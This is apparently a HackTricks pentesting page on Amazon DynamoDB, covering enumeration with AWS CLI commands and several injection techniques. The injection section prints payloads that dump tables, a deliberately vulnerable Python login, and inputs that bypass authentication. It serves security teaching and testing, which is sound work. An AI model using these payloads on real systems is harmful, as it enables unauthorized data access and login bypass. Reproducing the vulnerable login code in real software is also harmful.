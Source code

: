 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Basic Information

Amazon DynamoDB is presented by AWS as a **fully managed, serverless, key-value NoSQL database**, tailored for powering high-performance applications regardless of their size. The service ensures robust features including inherent security measures, uninterrupted backups, automated replication across multiple regions, integrated in-memory caching, and convenient data export utilities.

In the context of DynamoDB, instead of establishing a traditional database, **tables are created**. Each table mandates the specification of a **partition key** as an integral component of the **table's primary key**. This partition key, essentially a **hash value**, plays a critical role in both the retrieval of items and the distribution of data across various hosts. This distribution is pivotal for maintaining both scalability and availability of the database. Additionally, there's an option to incorporate a **sort key** to further refine data organization.

### Encryption

By default, DynamoDB uses a KMS key that \*\*belongs to Amazon DynamoDB,\*\*not even the AWS managed key that at least belongs to your account.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

It's possible to **schedule** the generation of **table backups** or create them on **demand**. Moreover, it's also possible to enable **Point-in-time recovery (PITR) for a table.** Point-in-time recovery provides continuous **backups** of your DynamoDB data for **35 days** to help you protect against accidental write or delete operations.

It's also possible to export **the data of a table to S3**, but the table needs to have **PITR enabled**.

### GUI

There is a GUI for local Dynamo services like [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), etc, that could be useful: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration

```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
  --table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```

### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### Privesc

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### Persistence

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB Injection

### SQL Injection

There are ways to access DynamoDB data with **SQL syntax**, therefore, typical **SQL injections are also possible**.

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL Injection

In DynamoDB different **conditions** can be used to retrieve data, like in a common NoSQL Injection if it's possible to **chain more conditions to retrieve** data you could obtain hidden data (or dump the whole table).\
You can find here the conditions supported by DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Note that **different conditions** are supported if the data is being accessed via **`query`** or via **`scan`**.

> [!NOTE]
> Actually, **Query** actions need to specify the **condition "EQ" (equals)** in the **primary** key to works, making it much **less prone to NoSQL injections** (and also making the operation very limited).

If you can **change the comparison** performed or add new ones, you could retrieve more data.

```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### Raw Json injection

> [!CAUTION]
> **This vulnerability is based on dynamodb Scan Filter which is now deprecated!**

**DynamoDB** accepts **Json** objects to **search** for data inside the DB. If you find that you can write in the json object sent to search, you could make the DB dump, all the contents.

For example, injecting in a request like:

```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```

an attacker could inject something like:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

fix the "EQ" condition searching for the ID 1000 and then looking for all the data with a Id string greater and 0, which is all.

Another **vulnerable example using a login** could be:

```python
scan_filter = """{
    "username": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [{"S": "%s"}]
    },
    "password": {
        "ComparisonOperator": "EQ",
        "AttributeValueList": [{"S": "%s"}]
    }
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```

This would be vulnerable to:

```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```

### :property Injection

Some SDKs allows to use a string indicating the filtering to be performed like:

```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```

You need to know that searching in DynamoDB for **substituting** an attribute **value** in **filter expressions** while scanning the items, the tokens should **begin** with the **`:`** character. Such tokens will be **replaced** with actual **attribute value at runtime**.

Therefore, a login like the previous one can be bypassed with something like:

```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```

{{#include ../../../banners/hacktricks-training.md}}





